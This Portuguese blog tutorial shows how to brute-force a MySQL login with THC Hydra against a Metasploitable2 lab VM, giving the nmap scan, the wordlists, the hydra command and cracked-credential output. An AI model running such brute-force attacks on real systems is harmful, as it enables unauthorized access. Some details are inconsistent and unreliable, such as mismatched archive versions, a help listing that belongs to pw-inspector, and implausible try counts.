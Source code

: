 ```yaml
---
layout: post
title: Quebrando senhas com o THC Hydra
data: Agosto de 2017
img_background: img\posts\2017-08-15-quebrando-senhas-com-o-thc-hydra\header.jpg
description: Um pouco de como ando utilizando o BeatifulSoup no meu dia-a-dia!
categories:
- Security
tags: [Security, Scripts]
---
```


## THC Hydra

Vou falar hoje sobre uma ferramenta que também é muito utilizada para realização de auditoriais em pentest que é o `THC – Hydra` que tem como objetivo realizar ataques de `força bruta` ou como muitos falam `brute force`, ou seja, ele faz diversas tentativas de acesso com a utilização de `wordlist`, até conseguir acesso.


![imagem hydra](img/posts/2017-08-15-quebrando-senhas-com-o-thc-hydra/xhydra.png)



## O que o THC Hydra suporta

Atualmente o `THC – Hydra`, suporta os serviços:

AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET,
HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET,
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP,
MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere,
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP,
SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2),
Telnet, VMware-Auth, VNC and XMPP.

## Instalando o Hydra no Linux

Para quem usa Kali Linux, ele ejá vem instalado, mas para quem usar outras distribuições assim como eu, é só seguir os passos abaixo:

Primeiro será necessário baixar os arquivos e descompactá-los.

{% highlight bash %}
wget www.thc.org/releases/hydra-8.1.tar.gz
tar vzxf hydra-7.1-src.tar.gz
cd hydra-8.1
{% endhighlight %}

#### Configurações opcionais

{% highlight bash %}
--disable-xhydra # não compila o xhydra (hydra GUI)
--prefix=/opt/hydra # diz onde vai ser instalado o hydra.
{% endhighlight %}

{% highlight bash %}
./configure --disable-xhydra --prefix=/opt/hydra
{% endhighlight %}

compila, instala e cria link simbólico:

{% highlight bash %}
make && make install && ln -s /opt/hydra/hydra /usr/bin
{% endhighlight %}

Caso queira usar o pw-inspector criar um link simbólico pra ele também:

{% highlight bash %}
ln -s /opt/hydra/pw-inspector /usr/bin
{% endhighlight %}


## Metasploitable2 e reconhecimento

Para que possamos realizar o teste nesse artigo, vou utilizar uma máquina virtual que tem diversas vulnerabilidades justamente para realizar testes de invasão, [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:class='link-exteno'}, caso queria saber mais sobre essa máquina virtual, é só [acessar o seu WIKI](https://sourceforge.net/p/metasploitable/wiki/Home/){:class='link-exteno'}.

A instalação dessa máquina virtual não é difícil, você só precisa de um software de virtualização, eu uso o `Virtual Box`, que a sua licença é `free`. Existe esse [Tutorial AQUI](http://resources.infosecinstitute.com/running-metasploitable2-on-virtualbox/){:class='link-exteno'}, que explica como usar o `Metasploitable2` no virtual box, se você seguir o tutorial certinho, nada vai dar errado.

### Usando Nmap para reconhecimento

Após a instalação dessa minha máquina virtual, será necessário descobrir quais os serviços que estão abertos nela para que possamos pegar um que esteja com o status de `open`, então para isso vou utilizar o `nmap`, vou filtrar somente algumas portas.

{% highlight bash %}
nmap -sS 192.168.1.40 -p [80,22,3306]
{% endhighlight %}

Lembrando o IP `192.168.1.40` é minha máquina virtual. Resultado:

{% highlight bash %}
Nmap scan report for new-host.home (192.168.1.40)
Host is up (0.00057s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 08:00:27:40:36:A7 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 1.58 second
{% endhighlight%}

Perfeito sabemos que os serviços de `SSH, HTTP e MYSQL`, estão com o status de open, vou tentar quebrar a senha do `mysql`.

## Entendendo como o Hydra funciona

Já que descobrimos que o serviço de `mysql` está com o status de open, vamos descobrir qual o usuário e a senha do mysql, para que possamos fazer vamos utilizar o hydra.

Antes de realizarmos qualquer teste, vamos dar uma olhada no help então execute aí `hydra -help`.

{% highlight bash %}
  -i FILE nome da wordlist pra ser tratada (default: stdin).
  -o FILE nome para o arquivo saída com o conteúdo já tratado (default: stdout).
  -m Tamanho minimo da senha.
  -M Tamanho máximo da senha.
  -c MINISETS número minimo de sets necessários.

Sets:
     -l Caracteres minúsculos (a,b,c,d, etc.)
     -u Caracteres maiúsculos (A,B,C,D, etc.)
     -n Números  (1,2,3,4, etc.)
     -p Aqui são os caracteres que não se encaixam -l/-u/-n em são eles $,!,/,(,, etc.)
     -s Caracteres especiais - são todos que não encaixam em nenhum dos sets acima.
     -t Limita o número de conexões paralelas (default: 16).
{% endhighlight %}

Essas são as opções que vamos utilizar aqui, existem outras, caso fique curioso é só ler o restante das opções, o help todo está em inglês essa é uma tradução feila pelo `MDH3LL`.

### Wordlists

Após conhecermos as opções que vamos utilizar então é só partimos para ação. Primeiro precisamos de uma `wordlist`, então vamos fazer uma, não precisa ser algo muito complexo vamos criar uma com poucas informações mesmo, é claro que se você tiver uma com mais opções e maior será bem mais eficiente, mas se não tiver então acesse o seu terminal e digite:

{% highlight bash %}
touch user.list
vim user.list
{% endhighlight %}

Aperte a tecla `i` copie e cole os users abaixo:

{% highlight bash %}
root
teste
admin
user
ROOT
RooT
User
Admin
{% endhighlight%}

Aperte `esc` e digite `:wq`

para fazer a `wordlist` de senhas:

{% highlight bash %}
touch password.list
vim password.list
{% endhighlight %}

Copie e cole as mesmas informações da lista `user`. Com as wordlist prontas agora vamos tentar quebrar a senha do mysql `Lol`. Para isso acesse o seu terminal e digite:

### Quebrando senhas com o THC Hydra.

{% highlight bash %}
hydra -L user.list -P password.list -t 1 192.168.1.40 mysql
{% endhighlight %}

Resultado:
{% highlight bash %}
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-04-21 13:31:16
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 28472 login tries (l:8/p:3559), ~444 tries per task
[DATA] attacking service mysql on port 3306
[3306][mysql] host: 192.168.1.40   login: "root"  - pass "" - 35 of 3559 [child 0]
{% endhighlight %}

Como é possível ver no nosso resultado temos acesso ao `mysql` o usuário `root` e com nenhuma senha. Então vamos alterar a senha do `mysql` para uma palavra que colocamos na nossa wordlist, aqui vou usar a senha `admin`. Para alterar a senha do mysql vá ate a sua máquina virtual e digite:

{% highlight bash %}
mysqladmin -u root password 'admin'
{% endhighlight %}

Se realizarmos o teste novamente

{% highlight bash %}
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-04-21 13:55:27
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 28472 login tries (l:8/p:3559), ~444 tries per task
[DATA] attacking service mysql on port 3306
[3306][mysql] host: 192.168.1.40   login: "root"  - pass "admin" - 35 of 3559 [child 0]
{% endhighlight %}

Bom à principio é apenas isso, você também pode fazer testes como esses em páginas de login, é só uma questão de ler com atenção as opções que exitem no help, com certeza você vai conseguir fazer outros testes bem mais interessantes que esse.

### Referências

[THC-HYDRA [PT-BR] ver 2.1 (Rev)](https://ghostbin.com/paste/y92ha){:class='link-exteno'}

[thc.org](https://www.thc.org/thc-hydra/){:class='link-exteno'}


-----
Viu algum erro ou gostaria de adicionar alguma sugestão a essa matéria? Comente.